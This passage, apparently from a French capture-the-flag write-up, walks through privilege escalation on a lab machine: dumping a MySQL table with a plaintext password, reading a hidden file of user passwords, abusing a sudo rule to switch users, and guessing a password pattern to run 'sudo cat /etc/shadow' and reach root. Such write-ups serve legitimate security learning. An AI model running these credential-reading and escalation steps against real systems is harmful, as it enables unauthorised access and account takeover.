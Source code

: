 ```plain
mysql> select * from user_info;
+----------+-------------+
| username | password    |
+----------+-------------+
| mysql    | mysql@12345 |
+----------+-------------+
1 row in set (0.00 sec)
```

Passer *mysql* nous amène à de nombreux mots de passe :  

```plain
mysql@osboxes:~$ ls -al
total 28
drwxr-xrwx  4 root  root  4096 Jul  6 16:25 .
drwxr-xr-x 14 root  root  4096 Jun  5 16:36 ..
-rw-------  1 mysql mysql  235 Jun  6 14:18 .bash_history
-rw-------  1 mysql mysql    3 Jun  6 14:18 db.txt.save
drwx------  3 mysql mysql 4096 Jul  6 16:25 .gnupg
drwxrwxr-x  3 mysql mysql 4096 Jun  6 14:15 .local
----------  1 mysql mysql  126 Jun  6 14:17 .user_informations

mysql@osboxes:~$ chmod 600 .user_informations
mysql@osboxes:~$ cat .user_informations
user2:user2@12345
user3:user3@12345
user4:user4@12345
user5:user5@12345
user6:user6@12345
user7:user7@12345
user8:user8@12345
```

User2 vers user1 vers root
--------------------------

On se connecte en *user2* et on voit qu'on peut passer *user1* via sudo :  

```plain
$ sudo -l
[sudo] password for user2:
Matching Defaults entries for user2 on osboxes:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user2 may run the following commands on osboxes:
    (user1) ALL
```

Un *sudo -u user1 bash* plus tard on relève la présence de la commande *sudo cat /etc/shadow* dans l'historique de *user1*.  

On exécute cette commande mais le mot de passe de *user1* est demandé... On teste *user1@12345* et BINGO ça passe. On peut passer root de la même façon.  
